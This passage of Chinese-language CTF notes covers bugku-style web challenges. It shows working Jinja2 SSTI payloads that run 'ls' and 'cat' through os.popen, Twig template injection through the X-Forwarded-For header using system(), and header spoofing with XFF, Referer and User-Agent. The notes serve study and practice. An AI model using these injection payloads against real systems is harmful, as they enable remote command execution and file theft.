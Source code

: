 ![alt text](image-18.png)
payload:?flag={{ config.__class__.__init__.__globals__['os'].popen('ls ').read() }}
![alt text](image-19.png)
查看flag:?flag={{ config.__class__.__init__.__globals__['os'].popen('cat ../app/flag').read() }}

## 1.10 修改源代码
- bugku 计算器
进入环境，结果应该是98，两位数，但输入框只能接受一位数
![alt text](image-22.png)
F12查看器，修改最大长度为2
![alt text](image-23.png)
输入98获得flag

## 1.11 xxf伪造ip
burpsuite抓包添加：
```
X-Forwarded-For: 127.0.0.1
```
php可能存在Twig模板注入，此时xxf会被当做代码执行，如：
```
X-Forwarded-For: {{system('ls')}}
X-Forwarded-For: {{system('ls /')}}
X-Forwarded-For: {{system('cat /flag')}}
```
## 1.12 修改Referer
- bugku 你从哪里来
进入环境，页面提示：are you from google?
说明需要从google跳转来，burpsuite抓包，放行得到flag
![alt text](image-24.png)
- 修改Referer可以和xxf，User-Agent结合
$\color{FF0000}{注意，不要放在消息头的末尾，插在消息头中间}$
```
X-Forwarded-For: 127.0.0.1
Referer:http://127.0.0.1
User-Agent: Syclover
```